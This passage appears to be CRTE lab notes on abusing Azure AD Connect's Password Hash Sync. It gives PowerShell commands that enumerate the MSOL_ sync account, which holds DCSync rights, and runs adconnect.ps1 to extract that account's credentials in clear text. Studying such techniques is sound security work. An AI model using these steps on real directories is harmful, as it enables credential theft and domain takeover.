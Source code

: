 > Azure AD Connect is installed on-premises and has a high privilege account both in on AD and Azure AD!


## PHS

> Let's target PHS.

- It shares users and their password hashes from on-premises AD to Azure AD.
- A new users **MSOL_** is created which has Synchronization rights (DCSync) on the domain!

![Alt text](/assets/images/posts/crte/3.png){: .align-center}




**Enumerate the PHS account and server where AD Connect is installed**

Using PowerView:
```powershell
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local
```

Using the ActiveDirectory module:
```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

> We already have administrative access to us-adconnect as helpdeskadmin.

With administrative privileges, if we run adconnect.ps1, we can extract the credentials of the MSOL_ account used by AD Connect in clear-text:
```powershell
.\adconnect.ps1
```
